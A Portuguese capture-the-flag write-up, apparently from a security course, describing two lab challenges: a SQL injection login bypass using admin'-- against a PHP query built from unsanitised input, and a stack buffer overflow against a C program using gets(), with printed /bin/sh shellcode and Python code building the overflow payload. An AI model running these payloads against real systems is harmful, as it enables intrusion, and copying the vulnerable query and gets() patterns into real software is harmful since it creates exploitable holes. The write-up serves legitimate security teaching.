



# CTF 4 - Semana 8

## Primeira parte

Inicialmente exploramos os ficheiros disponibilizados na plataforma CTF que são os mesmos que estão a ser executados no servidor na porta 5003. <br>
Verificamos que a base de dados usada é SQLite3 e quando o username é 'admin' o conteúdo do ficheiro `flag.txt` é mostrado na página web. Na parte do login a query utilizada é frágil pois o servidor cria o comando dinamicamente com as strings não sanitizadas do input do utilizador:

```php
$username = $_POST['username'];
$password = $_POST['password'];             
$query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
```

Ao usarmos o input "admin'--" através de SQL Injection garantimos o acesso privilegiado, pois todo a verificação da palavra chave torna-se irrelevante uma vez que é comentada. Assim, o código executado do lado do servidor passou a ser o seguinte:

```sql
SELECT username FROM user WHERE username = 'admin'-- AND password = $password
```

Tal como esperado, conseguimos fazer login com a conta do administrador e assim ter acesso ao conteúdo do ficheiro `flag.txt` e à flag do desafio, `flag{ac3aa6c08d2bd43bc74361ad039139fd}`.



## Segunda parte

Com o comando **checksec** verificamos que `program` (main.c compilado) não tem o binário randomizado nem existem proteções do endereço de retorno usando canários. 



Também tivemos acesso ao código fonte que está a ser executados no servidor na porta 4001:

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char buffer[100];

    printf("Try to control this program.\n");
    printf("Your buffer is %p.\n", buffer);
    printf("Give me your input:\n");
    fflush(stdout);
   
    gets(buffer);
    
    return 0;
}
```

A função `gets` é insegura pois copia para `buffer` todo o input de stdin até atingir um `\0`. Assim, uma vez que a stack tem permissões de execução e os seus endereços não estão randomizados, é possível fazer um buffer overflow para controlar o endereço de retorno da função main.

Para construir o exploit usamos a linguagem Python e o mesmo shell code de CTFs anteriores que permitia lançar uma bash no terminal. Além disso, foi útil utilizar uma expressão regular para extrair o valor do endereço de buffer.

```python
ADDRESS_REGEX = "0x(.+).\n"
SHELL_CODE = (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
  "\x0b\xcd\x80" 
).encode('latin-1')
```

O input terá exatamente 112 bytes: 100 bytes para atingir o máximo espaço de memória alocada em buffer e 12 bytes para dar overflow a 3 endereços:
- O endereço da variável passada à função printf;
- O frame-pointer de main;
- O endereço de retorno da main;

O exploit terá a seguinte estrutura:

- Os primeiros 23 bytes contêm o shell code;
- Os últimos 4 bytes contêm o endereço de retorno malicioso, que irá corresponder ao endereço do início do buffer;
- Os restantes bytes intermédios terão NOP (*no operation*). 

```python
content = ctf_server.recvuntil(b'input:').decode()
buffer_address = bytearray.fromhex(re.search(ADDRESS_REGEX, content).group(1))
buffer_address.reverse()

exploit = bytearray(NOP for _ in range(BUFFER_SIZE)) 
exploit[: len(SHELL_CODE)] = SHELL_CODE
exploit[BUFFER_SIZE - len(buffer_address):] = buffer_address
```

Isto irá reescrever o endereço de retorno da função main, que apontará agora para o shell code. Note-se que este processo também reescreve o frame pointer de main e o endereço do argumento de printf, que estão na stack entre o endereço de retorno e o buffer. No entanto, como main não chega a retornar, a manutenção dos valores originais torna-se irrelevante.

Tal como esperado, ao executar o código (disponível [aqui](../CTF/Exploits/Semana08.py)), conseguimos abrir uma bash no servidor:



Conseguimos assim ter acesso ao conteúdo do ficheiro `flag.txt` e à flag do desafio, `flag{a4421b76e3dfc304875754a99497e1f1}`.
